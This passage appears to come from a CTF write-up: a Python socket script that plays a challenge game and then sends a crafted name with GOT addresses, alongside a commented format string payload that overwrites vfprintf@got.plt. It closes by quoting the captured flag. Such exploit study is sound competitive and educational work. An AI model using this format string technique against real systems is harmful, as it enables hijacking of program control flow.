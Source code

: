 ```python
		cmd = "p\n"
	if "flex" in data:
		cmd = "h\n"
	if "tense" in data:
		cmd = "r\n"
		
	# we've won; update name to activate string format bug
	if "again" in data:
		# 0x804a138: vfprintf@got.plt
		# we overwrite it in two parts, the first uses %hn to write two bytes to the lower part of the address
		# the second %n overwrites four bytes, but I don't really care.
		# the rest of the string format bug is: "%34719c%36$hn%32836c%37$n"
		cmd = "ya0AAAAAAAAAAAAAAAAAAAAAAA" + struct.pack("<L", 0x804a138) + struct.pack("<L", 0x804a13a) + "\n"
	
	# flag is in the input, so halt execution & take note of it!
	if "9447" in data:
		raw_input()
		
	# game expects input, so send it
	if ">" in data:
		if cmd:
			s.send(cmd)
			cmd = ""
s.close()
```

The real flag was something like `9447{YOHOHO_A_PIRATES_LIFE_FOR_ME}`. 
